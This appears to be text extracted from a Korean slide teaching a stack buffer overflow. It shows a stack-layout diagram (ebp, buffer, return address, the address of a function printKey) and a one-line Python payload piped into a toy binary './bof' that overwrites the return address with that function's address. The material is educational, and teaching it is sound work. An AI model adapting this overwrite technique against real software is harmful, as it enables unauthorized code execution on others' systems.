

ebp
문자열 S의 공간
printKey의 주소 : 0x0804848b
?
?
?
문자열 S의 주소
“%s”
8b840408
Return address
: 0x080484c6
A X 4
ebp
 python -c "print 'A'*14 + '\x8b\x84\x04\x08'" | ./bof
입력 버퍼
A X10